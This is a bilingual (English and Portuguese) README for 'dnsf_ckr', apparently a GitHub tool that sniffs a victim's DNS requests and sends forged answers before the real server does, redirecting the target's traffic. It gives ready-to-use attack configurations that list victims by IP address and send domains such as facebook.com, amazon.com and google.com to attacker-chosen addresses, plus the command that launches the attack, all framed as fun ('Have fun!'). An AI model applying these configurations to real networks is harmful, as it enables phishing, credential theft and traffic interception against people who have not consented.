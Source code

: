 Dnsf_ckr
--------

(sorry my bad english...)

dnsf_ckr is a application used for messing up with domain names.

The idea here is sniffing victim's dns requests and fake the response as soon as possible than real dns server.
In this way is possible redirect the target machine to anywhere we want.

MuHAuHaUHauHAuHAHuha! :)

## Using dnsf_ckr

At first you need to know about two things

    * The victim's ip address
    * Which domain names you wish to spoof

These informations must be supplied to dnsf_ckr through a configuration file.

Suposing that yours victim is called "sheep" and has the ip address "192.30.70.9" and accesses the "www.facebook.com",
we have the following attack configuration:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # and so, the domain that your victim access which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people
        ;


Okay, now you want to add a new attack based on a new victim and directing the "sheep" for others wilder domains too:


        victims = 
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people, webcommerce-sites
            with obama mess up search-engines
        ;

Now, if all this presented data has been into "my-dirty-little-hacking.conf" file all we need to do is:

        ./dnsf_ckr my-dirty-little-hacking.conf


Have fun!
Rafael :)


Dnsf_ckr
--------

dnsf_ckr e uma aplicacao usada para baguncar com os dominios.

A ideia aqui e sniffar as requisicoes dns da vitima e forjar a resposta o quanto antes em relacao ao servidor dns real.
Dessa forma e possivel redirecionar a maquina alvo para onde nos quisermos.

MuHAuHaUHauHAuHAHuha! :)

## Usando o dnsf_ckr

Para comecar voce precisa saber de duas coisas

    * O endereco ip da vitima
    * Quais nomes de dominio voce deseja spoofar

Essas informacoes devem ser informadas para o dnsf_ckr por meio de um arquivo de configuracao.

Supondo que sua vitima se chama "ovelha" e possui o ip "192.30.70.9" e acessa "www.facebook.com",
teriamos a seguinte configuracao de ataque:

        # dnsf_ckr attack config sample

        # at first, you have to declare your victim alias

        victims =
            sheep: 192.30.70.9
        ;

        # and so, the domain that your victim access which you want to spoof, in form <domain>:<spoofed-ip>

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        # finally, you inform your intentions to dnsf_ckr

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people
        ;


Ok, agora voce quer adicionar um novo ataque para uma nova vitima, alem de direcionar a "ovelha" para outros dominios
mais selvagens:

        victims = 
            sheep: 192.30.70.9
            obama: 192.30.70.21
        ;

        namelist boring-sites-of-boring-people =
            www.facebook.com: 192.30.70.101
        ;

        namelist webcommerce-sites =
            www.amazon.com: 192.30.70.101
            www.buy-buy-baby-buy-buy.com: 192.30.70.101
            www.good-buy.com: 192.30.70.101
        ;

        namelist search-engines =
            www.bing.com: 192.30.70.102
            www.google.com: 192.30.70.101
            www.goduck.com: 192.30.70.103
        ;

        fake-nameserver =
            with sheep mess up boring-sites-of-boring-people, webcommerce-sites
            with obama mess up search-engines
        ;

Agora, se todos esses dados apresentandos estiverem dentro do arquivo "my-dirty-little-hacking.conf" tudo o que precisamos fazer:

        ./dnsf_ckr my-dirty-little-hacking.conf


Divirta-se!
Rafael :)
